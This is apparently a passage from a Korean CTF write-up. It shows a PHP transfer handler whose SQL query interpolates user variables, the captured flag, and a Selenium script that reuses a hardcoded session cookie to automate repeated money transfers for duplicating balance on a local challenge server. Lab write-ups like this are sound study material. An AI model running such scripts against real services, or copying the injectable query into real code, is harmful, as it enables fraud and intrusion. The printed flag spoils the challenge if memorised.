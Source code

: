 ```php
    mysqli_query($conn, "update user set credit = credit + $am where userid = '$rc';");
    success("Transfer succeed");
}
error("Wrong pow");
```

![Untitled](Untitled%202.png)

flag

`FLAG{STEAL-1ts_st1ll_bug_0f_chr0m3_haha}`

추가로 이 문제를 풀 당시에는 transfer 기능을 통해 돈 복사를 할 때 계속 노가다(?)로 해도 생각보다 빨리 1억 BFLs을 만들어줄 수 있었다.

그런데 끝나고 보니 이 부분을 자동화 하지 않은 것이 찝찝하여 자동화 코드를 작성했다.

```python
from selenium import webdriver
from webdriver_manager.chrome import ChromeDriverManager
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
from bruteforce import hash_bf
import time

def CreateSession():
    url = "http://127.0.0.1:8000"
    webdriver_options = webdriver.ChromeOptions()
    webdriver_options.add_argument("headless")
    driver = webdriver.Chrome("/usr/bin/chromedriver", options=webdriver_options)
    driver.get(url)
    driver.delete_cookie("PHPSESSID")
    driver.add_cookie({"name":"PHPSESSID", "value":"794806adc1e56b1e12f7eebf4f29324c"})

    return driver

def TransferCash(__driver, __amount):
    url = "http://127.0.0.1:8000/cash/transfer.php"
    __driver.get(url)

    code = __driver.find_elements(By.TAG_NAME, "code")
    pow = code[0].text[-5:]
    solve = hash_bf(pow)

    # 입력 값
    __driver.find_element(By.NAME, "recv_userid").send_keys("admin")
    __driver.find_element(By.NAME, "amount").send_keys(str(__amount))
    __driver.find_element(By.NAME, "secret").send_keys("")
    __driver.find_element(By.NAME, "pow").send_keys(solve)

    # submit
    __driver.find_element_by_xpath('//*[@id="transfer"]').click()

    alert = __driver.switch_to_alert()
    alert.accept()
    time.sleep(1)   # 다음 alert 창을 처리히기 위한 대기
    alert = __driver.switch_to_alert()
    alert.accept()

if __name__ == "__main__":
    browser = CreateSession()

    amount = 50
    while amount < 10 ** 8:
        print("[+] Amount : " + str(amount) + "Bfls")
        TransferCash(browser, amount)
```